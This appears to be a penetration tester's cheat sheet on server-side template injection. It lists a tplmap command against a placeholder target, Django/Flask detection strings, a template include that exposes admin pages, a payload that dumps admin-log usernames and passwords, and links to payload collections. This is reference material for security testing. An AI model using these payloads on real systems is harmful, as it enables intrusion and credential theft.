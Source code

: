 +++
title = 'SSTI'
+++


## Tools

```
# https://github.com/epinna/tplmap
tplmap.py -u 'http://www.target.com/page?name=John'
```

## Python Django/Flask

Detection:
```
{% if 'str' = 'str' %} vuln {% endif %}
{% debug %}
```

Disclose pages:
```
{% include 'admin/base.html' %}
```

Disclose log table:
```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}
```

## ASP/APS.NET/ASPX

- % is a key character
- If ```<%``` returns 500, try ```<%= 7*7 %>```

## FreeMarker

- https://gist.github.com/n1nj4sec/5e3fffdfa322f4c23053359fc8100ab9

## Tips

Try to SSTI with the fuzz string provided in cobalt.io blog post refered below


| URL | Description |
|---|---|
| https://github.com/DiogoMRSilva/websitesVulnerableToSSTI | Engines vulnerable to SSTI |
| https://github.com/payloadbox/ssti-payloads | Payloads |
| https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti | Blog about SSTI |
